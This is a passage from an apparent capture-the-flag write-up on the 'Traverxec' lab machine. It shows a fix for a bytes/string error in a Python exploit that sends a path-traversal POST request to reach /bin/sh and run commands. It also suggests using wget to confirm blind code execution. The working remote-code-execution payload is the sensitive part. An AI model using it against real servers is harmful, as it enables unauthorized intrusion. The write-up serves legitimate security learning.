 we get **an error** when running the code :/ But we *shouldn't worry* when we've got **Google** :)

we search **using the error message as a query**. To find this answer on [Stack Overflow](https://stackoverflow.com/questions/33054527/typeerror-a-bytes-like-object-is-required-not-str-when-writing-to-a-file-in):

![](/assets/Traverxec/stack-overflow-answer.jpg)

*following that,* we **modify the code** accordingly

```python
def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload.encode())  # previously soc.send(payload)
    receive = connect(soc)
    print(receive)
```

then **rerun the exploit**

![](/assets/Traverxec/no-feedback-exploit.jpg)

**no feedback** at all this time xD

*But,* ***no feedback doesn't necessarily mean no effect***

*for blind situations like these*: it's good to use something like `wget` to **verify code execution.**

![](/assets/Traverxec/code-execution-verified.jpg)
